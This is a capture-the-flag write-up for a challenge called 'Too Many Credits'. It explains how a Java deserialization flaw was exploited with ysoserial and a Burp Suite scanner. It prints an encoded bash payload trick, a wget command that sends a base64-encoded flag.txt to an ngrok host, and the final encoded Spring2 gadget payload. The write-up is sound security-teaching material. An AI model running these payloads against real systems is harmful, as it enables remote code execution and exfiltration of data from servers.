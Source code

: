 # Too Many Credits

This problem involved firing a Java deserialization attack against the target web server in order to gain code execution.

I solved this problem using these tools and resources:

* The Java-deserialization-payload-generator [ysoserial](https://github.com/frohoff/ysoserial).
* The [Java-Deserialization-Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner) plugin for Burp Suite, which automates a lot of ysoserial payload generation.
* [This awesome article](https://medium.com/abn-amro-red-team/java-deserialization-from-discovery-to-reverse-shell-on-limited-environments-2e7b4e14fbef), which explained how to overcome some command-encoding obstacles with ysoserial payload generation.

The discovery and exploitation flow went like:

* Use JavaDeserializationScanner to see that deserialization likely exists for base64/gzipped Spring pop chains.
* Use JavaDeserializationScanner to exploit.
* Use some {wget,bash}-fu to exfil command output (and eventually, flag.txt) to a quick-and-dirty [listener server](./listener).

Along the way (thanks to the aforementioned resources), I encountered this slick method of encoding Bash payloads without using quotes:

```sh
bash -c {echo,BASE64_PAYLOAD}|{base64,-d}|{bash,-i}
```

Final unencoded exfil payload was:

```
wget http://7143a4ea.ngrok.io/`cat flag.txt|base64`
```

Final encoded `ysoserial` payload:

```
Spring2 'bash -c {echo,d2dldCBodHRwOi8vNzE0M2E0ZWEubmdyb2suaW8vYGNhdCBmbGFnLnR4dHxiYXNlNjRg}|{base64,-d}|{bash,-i}'
```
